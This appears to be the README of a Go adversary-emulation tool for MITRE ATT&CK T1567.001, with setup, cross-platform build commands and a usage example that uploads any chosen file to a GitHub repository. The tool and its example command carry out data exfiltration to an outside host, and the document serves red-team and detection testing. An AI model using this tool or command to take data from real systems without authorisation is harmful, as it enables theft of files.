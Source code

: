 # T1567.001 - Exfiltration Over Web Service: Exfiltration to Code Repository

Implementation of [T1567.001](https://attack.mitre.org/techniques/T1567/001) - Exfiltration Over Web Service: Exfiltration to Code Repository.

## Features

- Upload files to a GitHub repository

## Prerequisites

- [Go](https://golang.org)
- [Task](https://taskfile.dev) for building (optional)
- GitHub Personal Access Token with `Read` and `Write` access to `Contents` of a repository

## Setup

1. Configure your GitHub credentials:

   - Replace the following constants in `main.go` with your values:

     ```go
     githubToken = "your-github-token-here"
     repoOwner   = "your-username"
     repoName    = "your-repo-name"
     ```

2. Install dependencies:

    ```bash
    # Using task
    task install-deps

    # Or using go directly
    go mod tidy
    ```

## Build

You can build the application using Task or Go directly.

### Using Task

Build for your current platform:

```bash
task build
```

Build for specific platforms:

```bash
task build-linux   # Build Linux binaries (amd64, arm64)
task build-darwin  # Build macOS binaries (amd64, arm64)
task build-windows # Build Windows binaries (amd64, 386)
```

### Using Go Directly

Build for your current platform:

```bash
go build -o build/t1567-001 main.go
```

## Usage

The application accepts two command-line flags:

- `-file`: Path to the file you want to upload (required)
- `-message`: Commit message (optional, defaults to "Upload file")

Example:

```bash
# Using the built binary
./build/t1567.001 -file path/to/file.txt -message "T1567.001"

# Using go directly
go run main.go -file path/to/file.txt -message "T1567.001"
```

The file will be uploaded to the root of your configured GitHub repository using the same filename.
